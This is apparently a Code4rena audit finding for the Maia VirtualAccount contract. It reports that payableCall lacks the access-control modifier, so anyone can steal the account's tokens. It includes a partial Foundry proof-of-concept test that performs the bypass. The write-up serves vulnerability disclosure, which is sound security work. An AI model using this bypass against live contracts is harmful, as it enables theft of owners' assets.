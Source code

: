 All non-native assets (ERC20 tokens, NFTs, etc.) can be stolen by anyone from a `VirtualAccount` using its [`payableCall(...)`](https://github.com/code-423n4/2023-09-maia/blob/f5ba4de628836b2a29f9b5fff59499690008c463/src/VirtualAccount.sol#L84-L112) method, which lacks the necessary access control modifier [`requiresApprovedCaller`](https://github.com/code-423n4/2023-09-maia/blob/f5ba4de628836b2a29f9b5fff59499690008c463/src/VirtualAccount.sol#L159-L167). See also, the [call(...)](https://github.com/code-423n4/2023-09-maia/blob/f5ba4de628836b2a29f9b5fff59499690008c463/src/VirtualAccount.sol#L65-L82) method which utilizes the [`requiresApprovedCaller`](https://github.com/code-423n4/2023-09-maia/blob/f5ba4de628836b2a29f9b5fff59499690008c463/src/VirtualAccount.sol#L159-L167) modifier.

Therefore, an attacker can craft a call to e.g. `ERC20.transfer(...)` on behalf of the contract, like the [withdrawERC20(...)](https://github.com/code-423n4/2023-09-maia/blob/f5ba4de628836b2a29f9b5fff59499690008c463/src/VirtualAccount.sol#L55-L58) method does, while bypassing access control by executing the call via [`payableCall(...)`](https://github.com/code-423n4/2023-09-maia/blob/f5ba4de628836b2a29f9b5fff59499690008c463/src/VirtualAccount.sol#L84-L112).

As a consequence, all non-native assets of the `VirtualAccount` can be stolen by anyone causing a loss for its owner.

### Proof of Concept

Add the code below as a new test file `test/ulysses-omnichain/VirtualAccount.t.sol` and run it using `forge test -vv --match-contract VirtualAccountTest` in order to verify the above claims:

```solidity
//SPDX-License-Identifier: AGPL-3.0-only
pragma solidity ^0.8.0;

import {VirtualAccount} from "@omni/VirtualAccount.sol";
import {PayableCall} from "@omni/interfaces/IVirtualAccount.sol";

import {ERC20} from "solmate/tokens/ERC20.sol";

import "./helpers/ImportHelper.sol";


contract VirtualAccountTest is Test {

    address public alice;
    address public bob;

    VirtualAccount public vAcc;

    function setUp() public {
        alice = makeAddr("Alice");
        bob = makeAddr("Bob");

        // create new VirtualAccount for user Alice and this test contract as mock local port
        vAcc = new VirtualAccount(alice, address(this));
    }

    function testWithdrawERC20_AliceSuccess() public {
        vm.prank(alice);
        vAcc.withdrawERC20(address(this), 1); // caller is authorized
    }

    function testWithdrawERC20_BobFailure() public {
        vm.prank(bob);
        vm.expectRevert();
        vAcc.withdrawERC20(address(this), 1); // caller is not authorized
    }

    function testWithdrawERC20_BobBypassSuccess() public {
        PayableCall[] memory calls = new PayableCall[](1);
        calls[0].target = address(this);
        calls[0].callData = abi.encodeCall(ERC20.transfer, (bob, 1));
```